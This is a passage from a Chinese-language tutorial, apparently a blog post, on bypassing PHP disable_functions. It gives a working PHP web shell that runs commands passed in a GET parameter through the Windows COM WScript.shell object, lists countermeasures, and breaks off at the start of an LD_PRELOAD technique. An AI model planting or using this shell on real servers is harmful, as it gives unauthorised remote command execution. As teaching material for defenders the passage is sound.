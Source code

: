 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkJPPHUV3CaJQicx0JDicfPgZfibdziaWZnlU5BtLEnWW297Pq1CTQMfCL2g/640?wx_fmt=png)

2. 在 php/ext / 里面存在 php_com_dotnet.dll 这个文件

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkk4wia7CBlxMhdH8oSibC7G8A8icbcIlFiaXZf0SiaiahM5OON8aqhDveb4JVA/640?wx_fmt=png)

**利用原理：**

在 Windows 环境中 PHP 中的 COM() 函数可以创建系统组件对象来运行系统命令。

上传 com_rce.php 文件，内容如下：

```
<?php

$command = $_GET['cmd'];

$wsh = **new** COM('WScript.shell'); // 生成一个COM对象
Shell.Application也能

$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令

$stdout = $exec->StdOut();

$stroutput = $stdout->ReadAll();

echo $stroutput;

?>
```

**利用效果：**  

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkLNuPlJEB4WZndcyZ4g8fkMGRXoNywia8xFdKA4RLLeg7vAol3Hbkhtw/640?wx_fmt=png)

**防御方法：**  

1.  Windows 的 COM 组件可能会被用来绕过 UAC、disable_functions 等，我们需要检查 PHP 的配置文件中 com.allow_dcom 是否为 false。
    
2.  删除 php/ext / 下的 php_com_dotnet.dll，防止被恶意利用。
    

**三. Linux 中利用 LD_PRELOAD 绕过**

什么是 LD_PRELOAD？

LD_PRELOAD 是 Linux 系统的一个环境变量，它的加载优先级最高，可以用来覆盖正常的函数库。我们可以通过 LD_PRELOAD 加载我们写的函数库，来覆盖系统中原有的一些函数达到执行命令的效果。AntSword 中的 disable_functions 插件原理也是如此。

### 3.1 利用 mail 函数劫持 getuid()

**环境要求：**

1.Linux 系统安装并启用了 sendmail 程序。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Tica43LSHVty1URiaAOYVkkDb0CY5lGY3oFvNP0stGC0SpbOliciaekqVJsNs8JqU8nvAmIaRLP2x0w/640?wx_fmt=png)
